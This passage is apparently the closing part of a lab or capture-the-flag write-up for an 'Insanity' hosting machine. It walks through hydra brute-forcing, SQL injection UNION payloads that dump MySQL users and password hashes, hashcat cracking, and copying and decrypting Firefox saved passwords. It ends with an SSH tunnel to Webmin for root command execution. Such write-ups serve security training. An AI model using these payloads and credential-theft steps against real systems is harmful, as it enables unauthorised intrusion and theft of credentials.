

```
key4.db       100%  288KB  862.7KB/s   00:00
logins.json   100%  575    5.9KB/s     00:00
```

### 10.4 Decrypt Firefox Credentials — firefox_decrypt

Copy both files into a profile folder then run the decryption tool:

```bash
python3 ~/firefox_decrypt/firefox_decrypt.py ~/ff_full_profile
```



```
Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'
```

> 🎯 **Root credentials recovered from Firefox saved passwords:**
> - **Username:** `root`
> - **Password:** `S8Y389KJqWpJuSwFqFZHwfZ3GnegUa`
> - **Saved URL:** `https://localhost:10000` → **Webmin** admin panel (internal only)
>
> The `elliot` user had saved root credentials in their Firefox browser — a severe OPSEC failure. Webmin on port 10000 is not exposed externally, so an SSH tunnel is required to reach it.

### 10.5 SSH Tunnel — Expose Webmin Port 10000

Create a local port forward over SSH to reach the internal Webmin service:

```bash
ssh -L 10000:localhost:10000 elliot@192.168.222.124
```

![ssh -L 10000:localhost:10000 elliot@192.168.222.124 — tunnel established, [elliot@insanityhosting ~]$](images/image31.png)

```
elliot@192.168.222.124's password:
[elliot@insanityhosting ~]$
```

With the tunnel active, `https://127.0.0.1:10000` on the attacker machine is forwarded to Webmin on the target.

### 10.6 Webmin — Command Execution as Root

Navigate to `https://127.0.0.1:10000` and log in with `root:S8Y389KJqWpJuSwFqFZHwfZ3GnegUa`.

Go to **Others → Command Shell** and run:

```bash
cat /root/proof.txt
```


```
> cat /root/proof.txt
c5485941ed96e831032af8a2d52a7d32
```

> 🚩 **proof.txt (Root Flag):** `c5485941ed96e831032af8a2d52a7d32`

---

## 11. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| User Flag | `/home/elliot/local.txt` | `a6b95e060e4e17f3415a21e66d05af90` |
| Root Flag | `/root/proof.txt` | `c5485941ed96e831032af8a2d52a7d32` |

---

## 12. Attack Chain Summary

```
[1] nmap -Pn -p- --min-rate 5000 192.168.222.124
        → Port 21 (ftp), 22 (ssh), 80 (http)

[2] nmap -sC -sV -A -Pn -p 21,22,80 192.168.222.124
        → vsftpd 3.0.2 (anonymous login allowed)
        → OpenSSH 7.4 (protocol 2.0)
        → Apache 2.4.6 (CentOS) PHP/7.2.33
        → HTTP Title: "Insanity – UK and European Servers"

[3] ftp 192.168.222.124 (anonymous login)
        → pub/ empty → dead end

[4] Browse http://192.168.222.124
        → "Hami." hosting page
        → Contact email: hello@insanityhosting.vm → domain hint

[5] gobuster dir -u http://192.168.222.124 -w medium.txt -x php,html,txt
        → /news (301), /webmail (301), /monitoring (301)

[6] Browse http://192.168.222.124/news
        → Bludit CMS blog
        → "A special thank you to Otis, who led the team" → username: otis

[7] View page source of /news
        → href="http://www.insanityhosting.vm/news/..."
        → Hidden virtual host: www.insanityhosting.vm

[8] sudo nano /etc/hosts
        → 192.168.222.124  www.insanityhosting.vm  insanityhosting.vm

[9] gobuster dir -u http://www.insanityhosting.vm/news/ -w medium.txt -x html,txt,php
        → /welcome (200), /admin (301), robots.txt, install.php

[10] Browse /news/admin → BLUDIT CMS login page
     Browse /news/install.php → "Bludit is already installed ;)"
     Browse /news/robots.txt → User-agent:*/Allow:/ (nothing useful)
     Browse /news/welcome → "A special thank you to Otis" → username: otis confirmed
     Browse /monitoring/login.php → custom Sign In form
     Browse /webmail/src/login.php → SquirrelMail 1.4.22

[11] Burp Suite — intercept POST /monitoring/index.php
        → Body: username=...&password=...
        → Failure response: 302 → Location: login.php

[12] hydra -l otis -P /usr/share/wordlists/rockyou.txt 192.168.222.124
     http-post-form "/monitoring/index.php:username=^USER^&password=^PASS^:F=Location\: login.php"
        → login: otis | password: 123456

[13] Login monitoring (otis:123456)
        → INSANITY HOSTING MONITORING CONTROL dashboard
        → Server Status: Localhost 127.0.0.1 UP, "Add New" button

     Login SquirrelMail (otis:123456) → INBOX (empty, awaiting email)
     Login BLUDIT admin (otis:123456) → FAILED

[14] SQL injection via Add New Server (Name field):
        a" UNION SELECT 1, GROUP_CONCAT(table_name), 3, 4
           FROM information_schema.tables WHERE table_schema=database()-- -
        a" UNION SELECT 1, GROUP_CONCAT(user, 0x3a, authentication_string), 3, 4
           FROM mysql.user-- -
        a" UNION SELECT 1, GROUP_CONCAT(username, 0x3a, password), 3, 4
           FROM users-- -
        tuantuan" AND SLEEP(10)-- -

[15] SquirrelMail INBOX → WARNING email from monitor@localhost.localdomain
        → mysql.user dump output:
           elliot:*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9

[16] echo '5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9' > hash.txt
     hashcat -m 300 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
        → 5a5749f309cac33b27ba94ee02168fa3c3e7a3e9:elliot123

[17] ssh elliot@192.168.222.124 (password: elliot123)
        → [elliot@insanityhosting ~]$
        → cat local.txt → a6b95e060e4e17f3415a21e66d05af90 ✓

[18] ls -la → .mozilla directory spotted
     cd .mozilla/firefox/esmhp32w.default-default/
     ls -la | grep -E "logins.json|key"
        → key4.db (294912 bytes), logins.json (575 bytes)

[19] scp elliot@192.168.222.124:/home/elliot/.mozilla/firefox/esmhp32w.default-default/key4.db .
     scp elliot@192.168.222.124:/home/elliot/.mozilla/firefox/esmhp32w.default-default/logins.json .

[20] python3 ~/firefox_decrypt/firefox_decrypt.py ~/ff_full_profile
        → Website:  https://localhost:10000
        → Username: root
        → Password: S8Y389KJqWpJuSwFqFZHwfZ3GnegUa

[21] ssh -L 10000:localhost:10000 elliot@192.168.222.124
        → Tunnel: localhost:10000 → target port 10000 (Webmin)

[22] Browse https://127.0.0.1:10000 → Webmin
     Login with root:S8Y389KJqWpJuSwFqFZHwfZ3GnegUa
        → Others → Command Shell
        → cat /root/proof.txt → c5485941ed96e831032af8a2d52a7d32 ✓
```

---

## 13. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning & service fingerprinting (`-Pn -p- --min-rate`, `-sC -sV -A`) |
| `ftp` | Anonymous FTP login test |
| Firefox / Browser | Manual web browsing & page source analysis for virtual host discovery |
| `gobuster` | Directory brute-forcing — 2 passes: root IP (`-x php,html,txt`), virtual host `/news/` (`-x html,txt,php`) |
| Burp Suite | HTTP request interception — identify POST parameters and failure condition for monitoring login |
| `hydra` | Credential brute-force via `http-post-form` with `F=Location\: login.php` failure string |
| SquirrelMail | Read out-of-band SQL injection results delivered as WARNING email reports |
| `/etc/hosts` | Map `www.insanityhosting.vm` → `192.168.222.124` |
| `ssh` | Remote shell as elliot + local port forward (`-L 10000:localhost:10000`) to expose Webmin |
| `scp` | Exfiltrate `key4.db` and `logins.json` from Firefox profile directory |
| `hashcat` | Crack MySQL native password hash (`-m 300`) → `elliot123` |
| `firefox_decrypt` | Offline decryption of Firefox saved passwords from `key4.db` + `logins.json` |
| Webmin (port 10000) | Root access via browser-based admin panel — Command Shell to read `proof.txt` |
